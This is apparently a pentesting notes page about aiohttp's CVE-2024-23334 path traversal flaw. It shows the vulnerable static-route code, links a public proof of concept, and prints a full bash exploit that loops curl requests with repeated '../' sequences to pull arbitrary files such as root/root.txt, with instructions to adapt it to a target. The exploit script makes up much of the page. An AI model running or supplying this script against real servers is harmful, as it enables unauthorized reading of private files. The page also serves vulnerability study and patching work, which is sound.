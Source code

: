```yaml
---
description: >-
  Python library that supports both client and server side of HTTP protocol and
  Web-Sockets (asyncio)
icon: globe-pointer
---
```


# AIOHTTP

## <mark style="color:purple;">`Documentation`</mark>

{% embed url="https://docs.aiohttp.org/en/stable/index.html" %}

***

## <mark style="color:purple;">**`Vulnerabilities`**</mark>

{% embed url="https://security.snyk.io/package/pip/aiohttp" %}

<details>

<summary><mark style="color:red;"><strong><code>CVE-2024-23334 - Path Traversal</code></strong></mark></summary>

{% hint style="info" %}
## <mark style="color:purple;">Versions :</mark> <mark style="color:red;">**`1.0.5 - 3.9.2`**</mark>
{% endhint %}

* <mark style="color:purple;">This vulnerability has been present since the introduction of the</mark> <mark style="color:orange;">**`follow_symlinks`**</mark> <mark style="color:purple;">parameter:</mark>

{% code title="Vulnerable Code" overflow="wrap" %}
```python
pp.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])
```
{% endcode %}

* [<kbd><mark style="color:orange;">**More information**<mark style="color:orange;"></kbd>](https://security.snyk.io/vuln/SNYK-PYTHON-AIOHTTP-6209406)
* <mark style="color:purple;">Look at the requests or fuzz the site to look for directories leaking static resources.</mark>

{% hint style="info" %}
<mark style="color:red;">**`PoC`**</mark>

{% code overflow="wrap" %}
```bash
git clone https://github.com/z3rObyte/CVE-2024-23334-PoC
```
{% endcode %}

* <mark style="color:purple;">Update the</mark> <mark style="color:orange;">**`URL`**</mark> <mark style="color:purple;">,</mark> <mark style="color:orange;">**`payload`**</mark> <mark style="color:purple;">, and</mark> <mark style="color:orange;">**`file`**</mark> <mark style="color:purple;">variables in the</mark> <mark style="color:orange;">**`PoC`**</mark> <mark style="color:purple;">to match your target:</mark>

{% code title="Example" overflow="wrap" %}
```bash
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
   payload+="$string"
   echo "[+] Testing with $payload$file"
   status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
   echo -e "\tStatus code --> $status_code"

   if [[ $status_code -eq 200 ]]; then
       curl -s --path-as-is "$url$payload$file"
       break
   fi
done
```
{% endcode %}
{% endhint %}

</details>

